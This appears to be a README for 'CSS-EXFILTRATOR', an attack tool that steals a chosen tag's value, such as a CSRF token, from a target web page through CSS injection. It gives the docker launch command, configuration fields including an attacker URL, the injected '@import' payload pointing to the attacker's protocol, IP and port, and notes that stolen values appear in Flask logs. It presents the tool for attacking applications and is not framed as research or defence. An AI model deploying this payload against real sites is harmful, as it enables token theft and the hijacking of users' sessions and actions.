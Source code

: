 # CSS-EXFILTRATOR
easy to use (really)

Easy script to target and exfiltrate one tag.

## How to launch

Very easy.

```
docker compose up --build
```

## How to configure ?

Very easy.

in app.py you can change 

```
attacker_url: by your protocol://ip:port
target_balise: tag you want to target (input with csrf ?)
size_of_field_to_brute: max size you need to search for your tag
entry_point: first endpoint where the script needs to listen (leave start if you have no constraints on the application you're attacking)
```

## How to use ?

Very easy.

`@import '<PROTOCOL>://<IP:PORT>/<ENTRY_POINT>';`

## Where is result ?

You can find it easily in the log flasks.

